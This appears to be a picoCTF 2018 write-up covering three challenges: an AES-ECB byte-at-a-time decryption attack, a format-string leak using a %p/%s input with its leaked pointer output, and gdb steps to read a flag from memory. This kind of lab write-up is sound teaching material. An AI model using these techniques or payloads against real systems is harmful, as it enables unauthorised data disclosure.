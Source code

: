 # SpyFi
### Cryptography: 300p
James Brahm, James Bond's less-franchised cousin, has left his secure communication with HQ running, but we couldn't find a way to steal his agent identification code. Can you? Conect with nc 2018shell2.picoctf.com 30399. [Source](https://2018shell2.picoctf.com/static/0cf0cf189f87fd142d6ddfc70af5ed3a/spy_terminal_no_flag.py).
```python
# spy_terminal_no_flag.py, change agent_code and insert a key
agent_code = "picoCTF{this_is_the_flag}"
# 16-byte key (32 hex digits)
key = "0"*32
```
The encrypt function uses *AES.new( key.decode('hex'), AES.MODE\_ECB )*. Looking at the code we see we can modify the length by entering a custom message and we know an entire 16-byte block by looking at the source code. We can generate different lengths ciphertexts, modify the length to make the guess fit into a 16 byte block with only one unknown character, loop and guess the unknown and recover one byte at a time. See [crack\_spyfi.py](crack_spyfi.py) for details.

# echooo
### Binary Exploitation: 300p
This program prints any input you give it. Can you [leak](https://2018shell2.picoctf.com/static/9a35d6aec3250ae1fbf67e19aeabaf1a/echo) the flag? Connect with nc 2018shell2.picoctf.com 57169. [Source](https://2018shell2.picoctf.com/static/9a35d6aec3250ae1fbf67e19aeabaf1a/echo.c).

Looking at the code we see a format string.

```C
fgets(buf, sizeof(buf), stdin);
printf(buf);
```
Try to enter a number of *%p* and see if anything resembles a pointer. Replace that *%p* with *%s* and see if it is the flag.
```
# After some fiddling
> %p %p %p %p %p %p %p %s
0x40 0xf77b25a0 0x8048647 0xf77e9a74 0x1 0xf77c1490 0xffb3b2e4 picoCTF{...
```

# learn gdb
### General Skills: 300p
Using a debugging tool will be extremely useful on your missions. Can you run this [program](https://2018shell2.picoctf.com/static/999e37c9737d95c105ea29ae5b3fac1f/run) in gdb and find the flag? You can find the file in /problems/learn-gdb\_3\_f1f262d9d48b9ff39efc3bc092ea9d7b on the shell server.
```bash
gdb run
start
break decrypt_flag
# Run until decrypt_flag finishes
finish
# main then calls puts with
# "Finished Reading Flag into global variable 'flag_buf'. Exiting."
info variables
...
0x6013e8 flag_buf
...
x flag_buf
'flag_buf' has unknown type; cast it to its declared type
x /4x &flag_buf
0x6013e8 <flag_buf>:    0x60    0x22    0x60    0x00
# Looks like pointer. Examine as pointer to string.
```